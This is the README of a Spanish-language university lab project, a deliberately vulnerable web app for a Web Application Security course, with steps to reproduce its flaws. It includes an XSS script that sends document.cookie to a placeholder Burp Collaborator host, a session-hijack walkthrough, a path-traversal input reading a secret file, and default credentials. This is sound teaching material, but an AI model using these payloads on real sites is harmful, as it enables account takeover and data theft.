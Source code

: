 # seguridad-apps-web
TP Grupal de la asignatura Seguridad en Aplicaciones Web de la UTN FRBA 1c 2022

## Requerimientos
Se debe instalar docker y docker-compose para correr la aplicacion.

## Ejecución
Parados en la carpeta principal del repositorio, ejecutar:

> docker-compose up --build

**Nota: no se deben tener en uso los puertos 3306 ni 3000 ya que son los que utiliza la aplicación.**

La aplicación se encontrará corriendo en:
> localhost:3000

## Reproducción de vulnerabilidades

*Paso 1)* Con el usuario sin autenticar, enviar la siguiente consulta habiendo abierto el Burp Suite Collaborator para obtener un subdominio burpcollaborator.net y recibir las credenciales en dicho colaborador.


    <script> 

        fetch('https://TU-SUBDOMINIO-ACA.burpcollaborator.net', { 

        method: 'POST', 

        mode: 'no-cors', 

        body:document.cookie 

        }); 

    </script>

*Paso 2)* Ingresar con el usuario supporter para que ejecute ese script y le envie al colaborador su access_token. El usuario supporter existe por defecto: usuario: supporter, contraseña: supporter123

*Paso 3)* En el Burp Collaborator tiene que haberse recibido la interaccion con la request que tiene el access_token del supporter. Colocar dicha cookie en el usuario no autenticado para pasar a estar autenticado.

*Paso 4)* Una vez dentro, ir al directorio '/createUsers' y crearse un usuario con rol Engineer.

*Paso 5)* Hacer '/logout' con el usuario supporter e ingresar con el usuario Engineer que acabamos de crear.

*Paso 6)* Con el engineer se entra directo al panel de playground de IaC. Aca se puede colocar el query_param *filename* de la siguiente forma para leer el contenido del archivo secret-password:

'/iac_template?filename=../../secret-password'

*Paso 7)* Decodificar el contenido del archivo que nos imprimio el pantalla que se encuentra en hash MD5 para obtener el password.